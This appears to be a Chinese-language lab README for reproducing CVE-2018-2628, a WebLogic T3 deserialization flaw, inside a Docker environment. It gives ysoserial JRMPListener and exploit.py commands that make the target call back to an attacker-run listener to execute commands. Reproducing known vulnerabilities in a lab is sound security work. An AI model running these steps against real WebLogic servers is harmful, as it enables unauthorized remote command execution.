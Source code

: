 # Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
- https://github.com/tdy218/ysoserial-cve-2018-2628

## 漏洞环境

执行如下命令启动Weblogic 10.3.6.0：

```
docker-compose up -d
```

等待环境启动（环境差异，有的机器可能等待的时间比较久），访问`http://your-ip:7001/console`，初始化整个环境。

## 漏洞复现

首先下载ysoserial，并启动一个JRMP Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是JRMP Server监听的端口。

然后，使用[exploit.py](https://www.exploit-db.com/exploits/44553)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标weblogic的IP和端口，`[path to ysoserial]`是本地ysoserial的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口。`[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`。

exploit.py执行完成后，执行`docker-compose exec weblogic bash`进入容器中，可见/tmp/success已成功创建。

![](1.png)
